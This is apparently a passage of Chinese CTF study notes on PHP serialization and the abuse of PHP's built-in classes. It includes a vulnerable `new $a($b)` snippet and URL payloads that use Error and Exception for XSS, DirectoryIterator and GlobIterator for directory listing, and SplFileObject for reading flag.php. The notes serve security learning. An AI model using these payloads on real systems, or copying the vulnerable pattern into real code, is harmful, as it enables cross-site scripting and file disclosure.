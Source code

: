 ## 序列化 Serialize

https://www.php.net/manual/zh/function.serialize.php

    <?php
        class Shield {...}

        $shield = new Shield('pctf.php');
        echo serialize($shield);
    ?>

### Serialize

[[安洵杯 2019]easy_serialize_php](https://blog.csdn.net/qq_43622442/article/details/106003691)
https://blog.csdn.net/qq_45555226/article/details/109808474

### 原生类

报错类 Error

```
<?php
$a = $_GET['a'];
$b = $_GET['b'];
echo new $a($b);
```

当传入下方 payload 的时候，会产生 XSS

`?a=Error&b=<script>alert("Lxxx");</script>`

Exception
与 Error 类似，Exception 同样有\_\_toString 方法，因此测试代码和上方一样，传入以下 payload，同样可以 XSS。

`?a=Exception&b=<script>alert("Lxxx");</script>`

遍历目录类 DirectoryIterator,FilesystemIterator

`?a=DirectoryIterator&b=glob://flag*`
`?a=DirectoryIterator&b=glob://f[k-m]*`

GlobIterator
`?a=GlobIterator&b=f[k-m]*`

读取文件类 SplFileObject
可以使用伪协议。 https://mp.weixin.qq.com/s/uNcPHMMq0vRvf-ZQ6oZ8_g

```
<?php
$a = $_GET['a'];
$b = $_GET['b'];
echo new $a($b);
```

`?a=SplFileObject&b=flag.php`

### 变量覆盖/extract/parse_str
